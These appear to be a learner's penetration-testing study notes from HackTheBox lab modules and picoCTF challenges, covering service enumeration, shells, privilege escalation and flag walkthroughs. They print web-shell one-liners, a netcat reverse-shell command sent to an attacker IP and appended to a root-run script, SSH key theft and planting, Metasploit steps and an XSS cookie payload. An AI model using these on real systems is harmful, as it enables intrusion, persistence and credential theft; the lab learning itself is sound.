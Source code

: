 command | xclip -selection clipboard  - copy output from a command before | to the clipboard

curl https://ifconfig.so		- public IP address :)

export <store_word>=<store>
$store_word
e.g. export target=10.129.244.89
ping $target

torify in terminal to move through tor nodes e.g. torify curl https://ifconfig.so will give you a different public IP addr

SMTP
port 25
sudo nmap 10.129.14.128 -sC -sV -p25
sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v

Enumerate the SMTP service and submit the banner, including its version as the answer.
telnet $target 25

Enumerate the SMTP service even further and find the username that exists on the system
initially tried with default wait time(5s) however that was too quick of a timeout for the server to respond. Upped it to -w 20, worked.
smtp-user-enum -w 20 -U footprinting-wordlist.txt -t $target

DNS
dnsenum		-bruteforce hostnames 

Interact with the target DNS using its IP address and enumerate the FQDN of it for the "inlanefreight.htb" domain.
FQDN stands for fully qualified domain name.
export target=10.129.244.89
dig ns inlanefreight.htb @$target

Identify if its possible to perform a zone transfer and submit the TXT record as the answer. (Format: HTB{...))
dig axfr inlanefreight.htb @$target

What is the IPv4 address of the hostname DC1?
dig axfr inlanefreight.htb @$target

What is the FQDN of the host where the last octet ends with "x.x.x.203"?
Downloaded wordlists to enumerate over dns hostnames
dig axfr inlanefreight.htb @$target
dnsenum –dnsserver $target –enum -p 0 -s 0 -f /dnsenum-wordlists/fierce-hostlist.txt dev.inlanefreight.htb

NFS
Ports 111(RPC) and 2049(NFS). NFS run over RPC. 
sudo nmap 10.129.14.128 -p111,2049 -sV -sC
sudo nmap --script nfs* 10.129.14.128 -sV -p111,2049		-scan NFS service for contents
showmount -e 10.129.14.128		-show available NFS shares
mkdir target-NFS
sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock
cd target-NFS		- mount NFS share
ls -l mnt/nfs/		- list contents with unames and group names
ls -n mnt/nfs/		- list contents with UIDs and GUIDs
sudo umount target-NFS		-unmount NFS share

Enumerate the NFS service and submit the contents of the flag.txt in the "nfs" share as the answer.
sudo nmap –script nfs* 10.129.19.209 -sV -p111,2049	to see where the file is located
sudo mount -t nfs 10.129.19.209:/var/nfs ./target-nfs -o nolock		- mounted the share
ls ~/target-nfs
cat flag.txt

Enumerate the NFS service and submit the contents of the flag.txt in the "nfsshare" share as the answer.
sudo nmap –script nfs* 10.129.19.209 -sV -p111,2049    to see where the file is located
sudo mount -t nfs 10.129.19.209:/mnt/nfsshare ./target-nfs -o nolock   	 - mounted the share
ls ~/target-nfs
cat flag.txt
 
SMB
smbclient -N -L //<IPADDR>		-N null session(anonymous access) -L ls server shares
rpcclient -U “” <IPADDR>		-rpcclient connect to the SMB server ability to send various requests to the SMB server such as srvinfo, enumdomains, querydominfo
nmap <IPADDR> -sC -sV -p139,445		-p139 and 445 are used by SMB
smbmap -H <IPADDR>		-enumerate SMB server

What version of the SMB server is running on the target system? Submit the entire banner as the answer.
sudo nmap 10.129.202.5 -sV -sC -p139,445

What is the name of the accessible share on the target?
smbmap -H 10.129.202.5

Connect to the discovered share and find the flag.txt file. Submit the contents as the answer.
smbclient \\10.129.202.5/sambashare
ls
cd contents
more flag.txt

Find out which domain the server belongs to.
Downloaded a tool from github enum4linux-ng, provides a lot of information about an SMB server
./enum4linux-ng.py 10.129.202.5 -A

Find additional information about the specific share we found previously and submit the customized version of that specific share as the answer.
smbmap -H 10.129.202.5
or
./enum4linux-ng.py 10.129.202.5 -A

What is the full system path of that specific share? (format: "/directory/names")
rpcclient -U “” 10.129.202.5
netshareenumall

FTP Enumeration
sudo nmap -sV -p21 -sC -A <IPADDR>	nmap scan on port 21, -sV version scan, -sC default script scan, -A aggressive scan provides more information but way more likely to be detected. 
–script ftp-anon check if the FTP server allow anonymous access, ftp-syst display status of the FTP server, including configs etc. –script-trace is used to display what commands the script send.
ways to connect to FTP:
nc -nv 10.129.14.136 21
telnet 10.129.14.136 21
openssl s_client -connect 10.129.14.136:21 -starttls ftp
Which version of the FTP server is running on the target system? Submit the entire banner as the answer.
nmap --script ftp-anon 10.129.43.135	-checks if the ftp server allow anonymous access, i.e login with user anonymous and w/e password.
The ftp server does allow anon access
ftp anonymous@10.129.43.135
password w/e
success
ls
more flag.txt
HTB{b7skjr4c76zhsds7fzhd4k3ujg7nhdjre}



ENUMERATION
cert can display multiple domains
crt.sh - find all domains tied to a company’s cert
curl -s https://crt.sh/\?q\=inlanefreight.com\&output\=json | jq .
curl -s https://crt.sh/\?q\=inlanefreight.com\&output\=json | jq . | grep name | cut -d":" -f2 | grep -v "CN=" | cut -d'"' -f2 | awk '{gsub(/\\n/,"\n");}1;' | sort -u
Shodan
dig - terminal tool to enumerate all DNS records tied to a website
grayhatwarfare.com - discover files in a specific cloud storage


PENTEST PRINCIPLES
1.     There is more than meets the eye. Consider all points of view.
2.     Distinguish between what we see and what we do not see.
3.     There are always ways to gain more information. Understand the target.


WEB REQUESTS

curl [options] [URL/IP:PORT]
curl -X [command] [URL/IP:PORT]
GET     Reads the specified entity from the database table
POST 	 Adds the specified data to the database table
PUT     Updates the data of the specified database table
DELETE     Removes the specified row from the database table
Examples:
curl http://<SERVER_IP>:<PORT>/api.php/city/london << add | jq for JSON format
curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'


curl URL - sends http request to the URL and write out the response
curl -O URL - sends http request to the URL and downloads the response

Hypertext Transport Protocol
curl http://94.237.63.93:38696/downloads.php

Javascript deobfuscation
run javascript - https://jsconsole.com/
minify code - https://javascript-minifier.com/
obfuscate code - http://beautifytools.com/javascript-obfuscator.php
more advanced obfuscation, change string array encoding to base64 - https://obfuscator.io/

beautify code - https://prettier.io/playground/ or https://beautifier.io/
deobfuscate code - https://matthewfl.com/unPacker.html

minification - place the code on the same line
obfuscate - make the code harder to understand

common encoding methods: base64, hex, rot13
Base64 - alpha-numeric characters(a-z, 0-9)
Hex - 0-9, a-f
rot13 - Caesar cypher, shift each character with a specific number, e.g. a → c (shift 2)
tool to identify encoding method - https://www.boxentriq.com/code-breaking/cipher-identifier

HTB Introduction
To connect to hackthebox, download the VPN file and run this command in terminal:
sudo openvpn file

SSH port 22
connect to vpn - sudo openvpn user.ovpn
ssh username@IP - remote connection to server
netcat/ncat/nc IP port - connect to a port

tmux - terminal mulitiplexer, can have multiple terminals on the same window
https://tmuxcheatsheet.com/
vim - text editor
https://vimsheet.com/

Nmap(Network mapper) - scanning tool, e.g. scan what ports are open on a specific IP
nmap IP
nmap -Sc IP - detailed scan
nmap -Sv IP - version scan
nmap -p PORT IP - specify port to scan
nmap -p-  IP - scan all 65535 TCP ports
nmap -sC IP - report the server headers and page title for any page hosted on the server
nmap --script <script name> -p<port> <host> - run specific nmap script
nmap -D RND IP - decoy IP RND=RANDOM IP, IP=TARGET

ftp -p IP - connect to ftp service

nc -nv IP PORT - banner grabber
nmap -sV --script=banner -pPORT IP - banner grabber

SMB(Server Message Block) - communication protocol in microsoft machines 
smbclient IP
smbclient -N -L IP 	-N suppresses the password prompt and - L specifies that we want to retrieve a list of available shares on the remote host 
smbclient -U USER IP 

gobuster is a command-line tool in terminal to DNS, vhost, and directory brute forcing
gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

HTTP response codes:
200 - successful
301 - redirect
403 - forbidden 

whatweb command-line tool to extract web server version, supporting frameworks, and applications
whatweb 10.10.10.121
whatweb --no-errors 10.10.10.0/24		- iterate through the whole network

searchsploit	- command-line tool to search for public vulnerabilities/exploits for any application
searchsploit openssh 7.2
searchsploit wordpress simple backup plugin
use exploit *****

public databases of known exploits: 
https://www.exploit-db.com/
https://www.rapid7.com/db/
https://www.vulnerability-lab.com/

metasploit command-line tool for pentesting, msfconsole in terminal
Running reconnaissance scripts to enumerate remote hosts and compromised targets
Verification scripts to test the existence of a vulnerability without actually compromising the target
Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
Many post-exploitation and pivoting tools
msfconsole
search exploit eternalblue
use exploit/windows/smb/ms17_010_psexec
show options
module option RHOSTS(REMOTE HOSTS) is the IP address
check, checks if the server is vulnerable

Types of Shells
Ways to connect to compromised systems are through SSH on linux, winRM on windows or through shells. There 3 types of shells:
Reverse Shell: Connects back to our system and gives us control through reverse connection.
Bind Shell: Waits for us to connect to it and gives us control when we do.
Web Shell: Communicates through a web server, accepts our commands through HTTP parameters, executes them and prints back the output.
Shell commands: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Once we find a vulnerability to execute code on the remote host we can start a netcat listener on our machine that listen on a specific port. We can then execute a reverse shell command to connect the victim’s system’s Shell i.e Bash or Powershell to our netcat listener. 

Netcat command:
nc -lvnp <PORT>
-l: listen mode wait for a connection to us
-v: verbose mode, so we know when we receive a connection
-n: Disable DNS resolution, only connect to/from IP addresses to speed things up
-p: Port

Bind Shell: We connect to the target’s listening port.

Upgrading teletypewriter(TTY) e.g. terminal: Once connected to the target with nc we realize that the terminal lack functions such as backtracking. We need to upgrade by mapping our terminal TTY to the remote host’s TTY. 
python -c 'import pty; pty.spawn("/bin/bash")'
ctrtl+z to background our shell
stty raw -echo
fg to bring back our shell
echo $term
stty size
export TERM=xterm-256color
stty rows 67 columns 318
Once this is done the 	nc should have all a terminal’s features just like SSH.

Web Shell: Web script, e.g. PHP or ASPX that accepts our commands through HTTP request parameters such as GET or POST. E.g.:
PHP: <?php system($_REQUEST["cmd"]); ?>
JSP: <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
ASP: <% eval request("cmd") %>
Web roots for most common web servers:
Apache     /var/www/html/
Nginx     /usr/local/nginx/html/
IIS     c:\inetpub\wwwroot\
XAMPP     C:\xampp\htdocs\
E.g.: echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
curl http://SERVER_IP:PORT/shell.php?cmd=id
Web Shell runs on port 80 or 443 which makes it easier to bypass any firewall.

Privilege Escalation
Checklist to look for a way to escalate our privilege to root in Linux or admin/system in Windows. https://book.hacktricks.xyz/ or https://github.com/swisskyrepo/PayloadsAllTheThings
Scripts: Linux: https://github.com/rebootuser/LinEnum.git https://github.com/sleventyeleven/linuxprivchecker
Windows: https://github.com/GhostPack/Seatbelt https://github.com/411Hall/JAWS
Both: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/carlospolop/PEASS-ng
./linpeas.sh

sudo -l		look for commands we can run without providing a password
sudo -u user		run the sudo command as that user not root

Scheduled tasks on an operating system can be exploited by finding how they’re are maintained and add your own script to it. E.g.: common way to maintain scheduled tasks is through Cron Jobs, if we can add our own bash script to /etc/Crontab, /etc/cron.d or /var/spool/cron/crontabs/root.

dpkg -l shows what software is downloaded on the linux system

If we have read access over the .ssh directory for a specific user, we may read their private ssh keys found in /home/user/.ssh/id_rsa or /root/.ssh/id_rsa, and use it to log in to the server. If we can read the /root/.ssh/ directory and can read the id_rsa file, we can copy it to our machine and use the -i flag to log in with it:
Timmyjk@htb[/htb]$ vim id_rsa
Timmyjk@htb[/htb]$ chmod 600 id_rsa
Timmyjk@htb[/htb]$ ssh user@10.10.10.10 -i id_rsa

If we find ourselves with write access to a users/.ssh/ directory, we can place our public key in the user's ssh directory at /home/user/.ssh/authorized_keys. This technique is usually used to gain ssh access after gaining a shell as that user. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user. We must first create a new key with ssh-keygen and the -f flag to specify the output file:
Timmyjk@htb[/htb]$ ssh-keygen -f key
This will give us two files: key (which we will use with ssh -i) and key.pub, which we will copy to the remote machine. Let us copy key.pub, then on the remote machine, we will add it into /root/.ssh/authorized_keys:
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
Timmyjk@htb[/htb]$ ssh root@10.10.10.10 -i key

Assignments
SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
ssh [given user]@[given ip] -p [given port number of target IP]
sudo -l
sudo -su user2
cd ~
ls
cat flag.txt

Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
cat /root/.ssh/id_rsa
copy results
cd ~
On a new cmd console on your own system
vim id_rsa
paste contents into id_rsa
chmod 600 id_rsa	needed for ssh, it won’t accept the file if it has too high privilege
ssh root@ -p -i id_rsa
ls
cat flag.txt


Transferring files
There are many methods to accomplish this. One method is running a Python HTTP server on our machine and then using wget or cURL to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:
Timmyjk@htb[/htb]$ cd /tmp
Timmyjk@htb[/htb]$ python3 -m http.server 8000
Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh
or
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

Another method to transfer files would be using scp, granted we have obtained ssh user credentials on the remote host. We can do so as follows:
Timmyjk@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:
base64 shell -w 0
Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

file <filename> to ensure file format
To ensure that nothing was interrupted during the process we can check the md5hash:
md5sum <filename>

Nibbles - Enumeration
Commands:
nmap -sV --open -oA nibbles_initial_scan <IP>
nmap -p- --open -oA nibbles_full_tcp_scan <IP>
nc -nv 1 <IP> <PORT>
nmap -sC -p <PORT/PORT, PORT> -oA nibbles_script_scan <IP>
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum <IP>

Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)
nmap -sV --open -oA nibbles_initial_scan <IP>

Nibbles - Web Footprinting
Commands:
whatweb <IP>
whatweb <IP>/<DIR>
gobuster dir -u <HTTP://IP> --wordlist /usr/share/dirb/wordlists/common.txt
curl -s http://<IP>/nibbleblog/content/private/users.xml | xmllint  --format -

Nibbles - Initial Foothold
<?php system('id'); ?>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
nc -lvnp <PORT>
python3 -c 'import pty; pty.spawn("/bin/bash")'

Nibbles - Privilege Escalation
Download LinEnum.sh
Start a Python HTTP server:
sudo python3 -m http.server 8080
On the target download the file from your server:
wget http://<your ip>:8080/LinEnum.sh
Found a writable and executable file on the target. Append a reverse shell code to the end and execute it with sudo to get a reverse shell back as the root user:
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT> >/tmp/f' | tee -a <FILE TO APPEND TO>
e.g. echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8443 >/tmp/f' | tee -a monitor.sh

Nibbles - Alternate User Method - Metasploit
Start metasploit:
msfconsole
search <application name>
use <module number>
set the rhosts i.e the target IP:
rhosts <TARGET IP>
set the lhost i.e your IP:
lhost <YOUR IP>
Type show options to see what options that need to be set for the exploit:
show options
e.g.:
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi nibbleblog
targeturi => nibbleblog
msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
Type exploit to start the exploit:
exploit

https://gtfobins.github.io/

 
XSS
<img src=/ onerror=alert(document.cookie)>
<script src=//www.example.com/exploit.js></script>


Can identify what operating system a target has by pinging with ICMP and looking at the TTL of the response. Different operating systems have different TTL.

wget URL - download file from url
file filename - check type of file




Obedient Cat
Open “filename”

Mod 26
rot13

Python Wrangling
cat pw.txt
python3 ende.py -d flag.txt.en


Wave a flag
chmod +x warm

Information
Exiftool is used for reading, writing and manipulating image, audio, video and PDF metadata.
Exiftool cat.jpg
cGljb0NURnt0aGVfbTN0YWRhdGFfMXNfbW9kaWZpZWR9 looks like base64 encryption
Using base64 decode site to decode

Nice netcat…
netcat is a tool that can read and write data across the internet
nc mercury.picoctf.net 22342
112 105 99 111 67 84 70 123 103 48 48 100 95 107 49 116 116 121 33 95 110 49 99 51 95 107 49 116 116 121 33 95 53 102 98 53 101 53 49 100 125 10 looks like ascii code
Using ascii code to ascii string converter

Transformation
word = 灩捯䍔䙻ㄶ形楴獟楮獴㌴摟潦弸彥ㄴㅡて㝽
for char in enc:
print(hex(ord(char)).lstrip(“0x”),end=''”)
first turns the character into unicode and then to hexadecimal, removes all the 0x and newlines
7069636f4354467b31365f626974735f696e73743334645f6f665f385f65313431613066377d hexadecimal
Using hexadecimal to ascii string converter

Get aHEAD
Burpsuite to identify the traffic
Hint 2: Maybe there’s more than 2 options…
See that there’s a GET and a POST method in the html code, when you inspect the website.
Maybe the hint and the title refer to a third HTTP request method, see https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods
There’s a HTTP request method called HEAD
Used burpsuite to alter http request to HEAD

Mind your Ps and Qs
Got C, E and N for RSA. Put it into a decoder https://www.dcode.fr/rsa-cipher

Static ain’t always noise
just passed the binary file as an argument with the given bash file ./ltdis.sh static

Tab, Tab, Attack
very straight forward

Matryoshka doll
Tip was that there existed files inside the jpg file
jpg file’s terminating byte is ffd9, meaning that everything after ffd9 will be ignored when opening the jpg file
xxd filename - view the file code in hex
See that the file contain multiple ffd9 bytes which indicate multiple files inside
Binwalk is a multipurpose tool that’s used to analyze and extract data
Binwalk filename - analyze the data of the file
Binwalk confirms my suspicion that multiple files exist inside
Binwalk -e filename - extract all hidden files
Did this multiple times until I found the flag
cat flag.txt

crackme-py
just look at the source code

Magikarp Ground Mission
ssh to the host
ssh host -p(port) portnumber

tunn3l v1s10n
Couldn’t open the file because of the header size
used exiftool to see that it was a BMP file
exiftool filename
read wiki to see the header requirements
used a hex editor to edit the header
hexedit filename


